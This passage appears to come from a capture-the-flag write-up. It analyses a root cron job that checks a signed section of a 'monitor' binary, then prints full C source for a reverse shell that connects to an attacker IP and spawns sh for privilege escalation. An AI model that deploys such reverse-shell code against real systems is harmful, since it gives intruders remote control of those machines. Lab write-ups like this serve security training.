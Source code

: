 ```bash
025/10/24 12:03:01 CMD: UID=0     PID=11133  | /usr/sbin/CRON -f -P 
2025/10/24 12:03:01 CMD: UID=0     PID=11136  | bash -c echo > /opt/AV/periodic-checks/status.log 
2025/10/24 12:03:01 CMD: UID=0     PID=11135  | /bin/sh -c bash -c 'echo > /opt/AV/periodic-checks/status.log' 
2025/10/24 12:03:01 CMD: UID=0     PID=11137  | /bin/sh -c bash -c '/root/initiate_monitoring.sh' >> /opt/AV/periodic-checks/status.log 2>&1 
2025/10/24 12:03:01 CMD: UID=0     PID=11138  | /bin/bash /root/initiate_monitoring.sh 
2025/10/24 12:03:01 CMD: UID=0     PID=11139  | objcopy --dump-section .text_sig=text_sig_section.bin /opt/AV/periodic-checks/monitor 
2025/10/24 12:03:01 CMD: UID=0     PID=11140  | /bin/bash /root/initiate_monitoring.sh 
2025/10/24 12:03:01 CMD: UID=0     PID=11141  | openssl asn1parse -inform DER -in text_sig_section.bin 
2025/10/24 12:03:01 CMD: UID=0     PID=11142  | /bin/bash /root/initiate_monitoring.sh 
2025/10/24 12:03:01 CMD: UID=0     PID=11144  | grep -oP (?<=UTF8STRING        :)Era Inc. 
2025/10/24 12:03:01 CMD: UID=0     PID=11147  | /bin/bash /root/initiate_monitoring.sh 
```

As you can see, there is some cronjob that is running, which execute the `monitor`. 
Also, it takes the segment `.text_sig` from `monitoer`, and put it inside `text_sig_section.bin`.
```bash
objcopy --dump-section .text_sig=text_sig_section.bin /opt/AV/periodic-checks/monitor 
```
Later, it checks using openssl the file `text_sig_section.bin`, which is probably some signature file.
```bash
openssl asn1parse -inform DER -in text_sig_section.bin 
```
at the end it deletes `text_sig_section.bin`, but it isn't shown here.

Okay, let's upload our reverse shell, we'll use again [https://www.revshells.com/](https://www.revshells.com/).
```C
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 770;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.10.16.49");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"sh", NULL};
    execvp("sh", argv);

    return 0;       
}
```
